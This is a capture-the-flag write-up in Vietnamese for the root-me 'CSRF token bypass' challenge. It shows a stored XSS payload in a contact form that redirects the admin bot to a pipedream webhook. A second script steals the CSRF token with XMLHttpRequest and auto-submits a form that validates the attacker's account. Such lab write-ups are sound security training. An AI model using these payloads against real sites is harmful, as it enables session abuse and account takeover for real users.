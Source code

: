 # root-me - CSRF token bypass

Sau khi `register` trang web có phần `Private` chứa flag, tuy nhiên để xem được flag cần được `validate` từ admin.

![validated form](validate.png)

Ta cần submit form này để có thể validate tuy nhiên chỉ admin mới có quyền.

Trang web có tính năng `contact`, thử trigger xss request đến `webhook endpoint` thì đúng dính thật.

![contact form](xss-contact.png)

**Payload**: trigger
```html
<script>window.location.href=".*pipedream.*"</script>
```

Một vài lưu ý nhỏ là bot ở root-me khá lâu đời rồi nên không xài được `fetch` để gửi `post request` nhưng không sao cả, ta dùng `XMLHttpRequest`.

**Payload**: Sau nhiều lần đập đi test lại
```html
<form id="profile" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data">
	<input id="username" type="hidden" name="username" value="devme">
	<input id="status" type="hidden" name="status" value="on" >
	<input id="token" type="hidden" name="token" value="#" />
</form>

<script>
	var xhttp = new XMLHttpRequest();

	xhttp.onload = function() {
		var results = this.responseText;
		var token = results.match(/name="token" value="(.*)"/)[1];
		document.getElementById("token").setAttribute("value", token);
		document.forms[0].submit();
	}

	xhttp.open("GET", "http://challenge01.root-me.org/web-client/ch23/?action=profile");
	xhttp.send();

</script>
```

Dán vào contact form và ngồi đợi thôi!

**flag**:
![flag](flag.png)
